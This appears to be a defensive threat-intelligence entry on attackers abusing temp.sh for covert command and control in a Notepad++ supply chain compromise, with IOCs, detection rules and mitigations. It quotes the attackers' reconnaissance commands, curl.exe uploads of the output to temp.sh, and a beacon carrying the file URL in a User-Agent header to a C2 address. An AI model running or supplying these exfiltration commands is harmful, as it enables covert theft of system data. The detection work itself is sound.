


# LOLC2 service abuse via temp.sh

## Metadata

- **UUID**: `bf30d882-9b96-403a-9a47-83a2981fc526`
- **Schema**: `threat::1.0`
- **TLP**: clear

## Description
## Executive Summary

Attackers are leveraging temp.sh, a legitimate temporary file-sharing service,
as a Living-Off-the-Land Command and Control (LOLC2) infrastructure. This
technique was observed in the Notepad++ supply chain attack, where adversaries
used the service to exfiltrate system information and establish covert
communication channels that blend with legitimate network traffic.

## Technique Overview

The LOLC2 technique abuses temp.sh's legitimate functionality to:
1. Act as an intermediary storage location for collected system information
2. Facilitate data exfiltration through a trusted, legitimate service
3. Enable indirect C2 communication by embedding temp.sh URLs in unusual HTTP headers
4. Evade detection by leveraging services that appear benign to network monitoring tools

## Attack Sequence

The attack follows a three-step process that was observed in both chains #1 and #2
of the Notepad++ supply chain compromise:

### Step 1: System Information Collection

The attacker executes shell commands to collect reconnaissance data from the
compromised system:

**Initial variant**:
```
cmd /c whoami&&tasklist > 1.txt
```

**Evolved variant**:
```
cmd /c "whoami&&tasklist&&systeminfo&&netstat -ano" > a.txt
```

**Split execution variant**:
Multiple separate commands writing to a.txt, including:
- User identification (whoami)
- Running processes (tasklist)
- System configuration (systeminfo)
- Network connections (netstat -ano)

### Step 2: Data Upload to temp.sh

Collected system information is uploaded to temp.sh using curl.exe:

```
curl.exe -F "file=@1.txt" -s https://temp.sh/upload
```

Or with the evolved filename:
```
curl.exe -F "file=@a.txt" -s https://temp.sh/upload
```

The temp.sh service responds with a URL where the uploaded file can be accessed
(e.g., https://temp.sh/ZMRKV/1.txt).

### Step 3: URL Transmission via User-Agent Header

The attacker sends the temp.sh URL back to their C2 server by embedding it in
an HTTP User-Agent header - an unusual and suspicious behavior:

```
curl.exe --user-agent "https://temp.sh/ZMRKV/1.txt" -s http://45.76.155[.]202
```

Alternative C2 endpoints observed:
- http://45.76.155[.]202/list
- https://self-dns.it[.]com/list

## Technical Analysis

### Why temp.sh?

Attackers selected temp.sh for several strategic reasons:

1. **Legitimate Service**: temp.sh is a genuine, widely-used temporary file
   sharing platform, making connections appear benign
2. **HTTPS Traffic**: All communications use encrypted HTTPS, hindering
   inspection
3. **No Authentication Required**: The service requires no account creation
   or authentication
4. **Temporary Nature**: Files are automatically deleted after a period,
   reducing forensic evidence
5. **Infrastructure Separation**: The attacker's C2 infrastructure remains
   separate from the exfiltration channel

### User-Agent Header Abuse

The use of temp.sh URLs in User-Agent headers is particularly noteworthy:

- **Purpose**: Notifies the C2 server where to retrieve the uploaded system
  information
- **Unusual Behavior**: User-Agent strings should contain browser/client
  identification, not URLs
- **Detection Opportunity**: This anomaly is detectable through network
  monitoring and HTTP header analysis
- **Stealth Attempt**: Avoids direct connections between compromised host
  and attacker infrastructure

## Indicators of Compromise (IOCs)

### Network Indicators

**temp.sh Communication Patterns**:
```
- DNS queries for temp.sh
- HTTPS POST requests to https://temp.sh/upload
- HTTPS GET requests to https://temp.sh/* URLs
```

**C2 Infrastructure (from Notepad++ attack)**:
```
- 45.76.155[.]202
- self-dns.it[.]com
```

### Host-Based Indicators

**Process Activity**:
- curl.exe executions with temp.sh domain
- cmd.exe spawning system information collection commands
- File creation in user-writable locations (1.txt, a.txt)

**Command Line Patterns**:
```
curl.exe -F "file=@*" -s https://temp.sh/upload
curl.exe --user-agent "https://temp.sh/*" -s http://*
cmd /c whoami&&tasklist
cmd /c "whoami&&tasklist&&systeminfo&&netstat -ano"
```

## Detection Opportunities

### Network Detection

1. **DNS Monitoring**:
   - Alert on DNS resolutions for temp.sh from unexpected hosts
   - Correlate temp.sh lookups with subsequent command execution activity

2. **HTTP/HTTPS Inspection**:
   - Monitor for User-Agent headers containing URLs (especially temp.sh URLs)
   - Detect POST requests to https://temp.sh/upload
   - Identify patterns of upload followed by suspicious C2 communication

3. **Traffic Analysis**:
   - Look for small file uploads to temp.sh followed by connections to
     suspicious IPs
   - Baseline normal temp.sh usage and alert on deviations

### Host Detection

4. **Process Monitoring**:
   - Monitor curl.exe executions with -F (file upload) parameter
   - Alert on curl.exe with --user-agent parameter containing URLs
   - Track cmd.exe spawning reconnaissance commands

5. **Command Line Analysis**:
   - Detect command chains combining whoami, tasklist, systeminfo, netstat
   - Look for output redirection to temporary files (*.txt)
   - Identify curl.exe usage patterns associated with file exfiltration

6. **File System Monitoring**:
   - Monitor creation of reconnaissance output files (1.txt, a.txt) in
     user directories
   - Track short-lived files that are created, uploaded, and deleted

### Kaspersky Detection

Kaspersky detects this activity with the **lolc2_connection_activity_network** rule,
which identifies:
- Connections to known LOLC2 services
- Unusual HTTP header patterns
- File sharing service abuse for C2 purposes

## Mitigation Recommendations

### Immediate Actions

1. **Network Controls**:
   - Consider blocking or monitoring connections to temp.sh if not required
     for business operations
   - Implement SSL/TLS inspection for file-sharing services
   - Alert on curl.exe network activity to file-sharing platforms

2. **Host-Based Controls**:
   - Restrict curl.exe execution to authorized users/applications
   - Monitor and alert on reconnaissance command execution
   - Implement application control policies

### Long-term Measures

3. **Detection Enhancement**:
   - Deploy behavioral detection for unusual User-Agent strings
   - Implement anomaly detection for HTTP client tool usage
   - Create baselines for normal file-sharing service usage

4. **Network Segmentation**:
   - Limit outbound HTTPS connections from sensitive systems
   - Implement egress filtering for workstations
   - Use DNS filtering to block or alert on suspicious services

5. **Security Awareness**:
   - Educate users about legitimate vs. malicious use of file-sharing services
   - Train SOC analysts on LOLC2 techniques and detection methods

## MITRE ATT&CK Mapping

### T1071.001 - Application Layer Protocol: Web Protocols

Attackers use HTTPS protocol to communicate with temp.sh for file uploads and
with C2 infrastructure for command and control, blending malicious traffic with
legitimate web communications.

### T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage

System information is exfiltrated by uploading to temp.sh, a legitimate cloud-based
file-sharing service, enabling data theft through a trusted platform that evades
traditional DLP controls.

### T1082 - System Information Discovery

Attackers collect system configuration, user context, running processes, and
network connections to understand the compromised environment and inform further
attack decisions.

## Evolution and Variants

The technique showed evolution during the Notepad++ campaign:

**Early Phase (July-August 2025)**:
- Simple collection: whoami&&tasklist
- Single output file: 1.txt

**Later Phase (September-October 2025)**:
- Enhanced collection: whoami&&tasklist&&systeminfo&&netstat -ano
- Different filename: a.txt
- More comprehensive reconnaissance

This evolution demonstrates attacker adaptation and refinement of techniques
over time.

## Threat Context

### Living-Off-the-Land C2

This technique represents a growing trend in adversary tradecraft:

- **Service Abuse**: Legitimate services become unwitting accomplices in attacks
- **Detection Evasion**: Trusted platforms bypass reputation-based security controls
- **Infrastructure Resilience**: Attackers use services maintained by third parties
- **Cost Reduction**: No need to maintain dedicated exfiltration infrastructure

### Related LOLC2 Services

Other legitimate services commonly abused for C2 include:
- Pastebin and similar text-sharing sites
- Cloud storage providers (Google Drive, Dropbox)
- Messaging platforms (Discord, Telegram, Slack)
- Code repositories (GitHub, GitLab)
- DNS services and TXT records

## Conclusion

The abuse of temp.sh for LOLC2 demonstrates sophisticated adversary tradecraft
that blends malicious activity with legitimate services. Organizations must
implement multi-layered detection focusing on behavioral anomalies rather than
relying solely on reputation-based security controls. The unusual User-Agent
header manipulation provides a strong detection signal that should be prioritized
in network monitoring configurations.

## References

- Kaspersky Securelist: "Notepad++ Supply Chain Attack" (February 2026)
- Rapid7 Research: "Notepad++ Supply Chain Compromise Analysis" (February 2026)
- temp.sh service: https://temp.sh/

## Techniques
- T1071.001
- T1567.002
- T1082

## Chaining


## Relations

